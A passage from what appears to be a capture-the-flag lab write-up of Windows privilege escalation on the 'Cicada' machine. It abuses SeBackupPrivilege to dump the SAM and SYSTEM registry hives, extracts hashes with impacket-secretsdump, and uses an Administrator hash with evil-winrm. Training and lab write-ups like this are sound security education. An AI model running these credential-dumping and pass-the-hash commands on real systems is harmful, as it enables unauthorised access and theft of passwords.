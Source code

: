 From alot of googling, numerous trial-and-error, rabit holes and chatgpt for the win,I saw this blog post(https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens.html)  that seemed to have promising escalation route. Follow the actual command as guided on the SeBackupPrivilege.
It's not necessary to include it her, the steps are straight forward.

Exploitation Steps
Since  ‘SeBackupPrivilege’ is Enabled for our user ‘emily.oscars’: It means we can be able to read any file on the system, we can leverage it to extract critical files such as SAM and SYSTEM, which contain hashed passwords of local users, including the Administrator.

In a nutshell,you may ask what going on here; From my understanding we are actually abusing SeBackupPrivilege to extract sensitive system files(SAM FILES, SYSTEM). Normally, users can’t access every file on a Windows machine, but the SeBackupPrivilege setting lets a user read everything on the system (even things they normally wouldn’t have access to).

Saving SAM & SYSTEM files:
I first moved to the Temp folder(Temp is also writeable) to somewhere we can access, then saved a copy of the SAM and SYSTEM files there using the following commands:

```
reg save hklm\sam c:\Users\emily.oscars.CICADA\Desktop\Temp\sam
reg save hklm\system c:\Users\emily.oscars.CICADA\Desktop\Temp\system
```

![](/img/Pasted%20image%2020241231122509.png)


Windows stores password information in a special **SAM file**, but the passwords are scrambled (hashed) for security.
The **SYSTEM file** contains the secret keys needed to unscramble (decrypt) these passwords.

After saving the Files, we can downloaded the files to our attacker machine:
```
download c:\Temp\sam
download c:\Temp\system
```
![](/img/Pasted%20image%2020241231125333.png)


Once downloaded, We can use secretsdump from impacket to extract password hashes from the SAM & SYSTEM files.
```
impacket-secretsdump -sam sam -system system LOCAL
```

![](/img/Pasted%20image%2020241231125333.png)

From the results we now have an Administrator’s password hash, which we can evil-winrm to gain root access over the machine.

```
evil-winrm -i 10.10.11.35 -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341
```
![](/img/Pasted%20image%2020241231130245.png)

Now, we are ROOT! and we can grab our roor flag.
